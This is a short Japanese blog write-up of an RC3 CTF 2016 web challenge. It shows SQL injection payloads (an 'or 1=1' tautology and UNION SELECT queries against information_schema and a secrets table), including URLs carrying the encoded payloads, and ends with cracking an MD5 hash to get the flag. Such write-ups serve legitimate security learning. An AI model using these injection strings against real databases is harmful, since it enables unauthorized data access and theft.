 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/11/21/rc3-ctf-2016-just-joking/
date: "2016-11-21T17:47:17+09:00"
tags: [ "ctf", "writeup", "rc3-ctf", "web", "sql-injection", "guessing" ]
---
```


# RC3 CTF 2016: \"Just joking,\" Joker joked!

`' or 1 = 1 -- `で確認できる自明sqliがある。
そのまま`' union select table_schema, table_name, column_name from information_schema.columns -- `とするとDBの中身が見える。後はたくさんあるtableを端から順に見ていって探す。

`flag.welcome`に`pcbfcppgle`とありcaesarしたら`redherring`になるが、これははずれ。
`CCNs.secrets`にあるmd5っぽい文字列をdecryptorに投げると`RC3-2016-HAHAHAHA`が登録されていて、これがflag。
まったく同じinjectionができるDBがふたつあったが、理由は不明のまま。後の問題用か。

-   <https://ctf.rc3.club:2010/connect.php?primary=%27+union+select+table_schema%2C+table_name%2C+column_name+from+information_schema.columns+--+>
-   <https://ctf.rc3.club:2010/connect.php?primary=%27+union+select+*+from+CCNs.secrets+--+>
